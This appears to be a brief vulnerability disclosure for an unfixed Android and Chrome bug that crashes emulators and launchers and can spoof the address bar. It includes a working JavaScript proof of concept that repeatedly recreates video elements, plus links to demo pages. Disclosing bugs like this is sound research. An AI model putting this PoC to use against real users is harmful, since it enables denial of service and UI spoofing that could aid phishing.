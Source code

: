 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE  
Android 11 (x86): Emulator closes  
Android 9 (x86): Launcher crash `frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting)` failed  

I have also had issues where the address bar or a different website in the case of a webview get shown instead of the video element.
```js
<script> onload = () => { createVideo();createVideo();createVideo();createVideo();createVideo(); } function createVideo() { let v = null; setInterval(() => { if (v) document.body.removeChild(v); v = document.createElement('video'); v.width="1000"; v.src = 'https://bugs.chromium.org/p/chromium/issues/attachment?aid=509705&signed_aid=QB-NucJqv2HA_Noz5yih-w==&inline=1'; document.body.appendChild(v); }, 2000); } </script>
```
Demos: [Doge PoC](https://ndev.tk/doge/) and [Unreliable Chrome UI spoof](https://ndev.tk/video.html)
